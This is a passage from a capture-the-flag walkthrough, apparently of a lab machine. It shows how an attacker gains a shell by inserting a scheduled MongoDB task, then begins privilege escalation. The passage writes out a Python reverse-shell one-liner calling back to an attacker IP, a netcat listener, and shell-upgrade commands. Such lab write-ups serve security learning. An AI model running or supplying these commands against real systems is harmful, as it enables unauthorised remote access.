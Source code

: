 The tasks collection does not contain any documents. Let’s add one that sends a[ reverse shell ](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)back to our attack machine.

```text
# insert document that contains a reverse shell
db.tasks.insert({cmd: "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.12\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"})# double check that the document got added properly.
db.tasks.find()
```

Set up a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Wait for the scheduled task to run.

![](https://miro.medium.com/max/976/1*pn6ccKnFendlQLV4amy6rw.png)

We get a shell! Let’s upgrade it to a better shell.

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground.

Grab the user.txt flag.

![](https://miro.medium.com/max/614/1*c2OPDps8LPRrtQz22yUGFg.png)

To grab the root.txt flag, we need to escalate our privileges to root.

## Privilege Escalation <a id="d22d"></a>

First, print the real and effective user and group IDs of the user.

```text
tom@node:/tmp$ id
uid=1000(tom) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare),1002(admin)
```

Second, review the LinEnum script for any info/files that are either associated to Tom’s id or groups that he is in.

After sifting through all the output from the script, we notice the following file which has the SUID bit set.
